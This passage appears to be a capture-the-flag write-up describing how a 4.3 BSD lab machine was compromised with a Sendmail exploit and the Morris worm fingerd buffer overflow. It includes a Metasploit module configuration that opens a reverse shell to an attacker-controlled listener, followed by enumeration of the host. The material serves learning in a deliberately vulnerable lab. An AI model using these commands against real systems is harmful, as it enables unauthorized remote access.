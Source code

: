 Using the exploit, a reverse shell was gained from the vulnerable server.

![](https://i.imgur.com/sau2LV4.png){: .mx-auto.d-block :}

Likewise, it also happened that when researching for the Sendmail vulnerability, a [Morris Worm fingerd Stack Buffer Overflow exploit](https://www.exploit-db.com/exploits/45791) was found which kind of go hand-in-hand with the timeline of the Sendmail vulnerability as this was also exploited by the Morris worm in 1988-11-02.

Since there is a running service on port 79 (finger service), this exploit was also tested.

~~~
use exploit/bsd/finger/morris_fingerd_bof

set RHOSTS 172.16.4.133

set LHOST 172.16.4.132

set LPORT 5555
~~~

The exploit worked as another reverse shell was gained.

![](https://i.imgur.com/ix0SMpD.png){: .mx-auto.d-block :}

The **hostname** of the machine for both reverse shells is the same, which is **2-of-diamonds**. This verified that both of the reverse shell can be used to gain access to same machine (both the services are running on the same machine).

**Note:** Not all services being used on the target vulnerable Ubuntu instance leads to same machine as the Ubuntu instance seems just hosting the dockerized servers.

The reverse shell was then used to enumerate the box.

Lo and behold, some of the machine contents matches the 1980's Morris worm timeline as date modified for some files were way back 1983 to 1986!

![](https://i.imgur.com/xttAA7c.png){: .mx-auto.d-block :}

The hard part of this challenge is that the operating system is quite old which seems there is few information regarding it. Though it was also enjoyable, as this became as a learn as you do experience for me.

Digging more into server shows that it is **4.3 BSD UNIX**.

~~~
cat /etc/motd

4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986


Would you like to play a game?
~~~

**Note:** **uname** command doesn't work for the server as [Linux Programmer's Manual verified that there is no uname call in 4.3 BSD](http://man7.org/linux/man-pages/man2/uname.2.html).
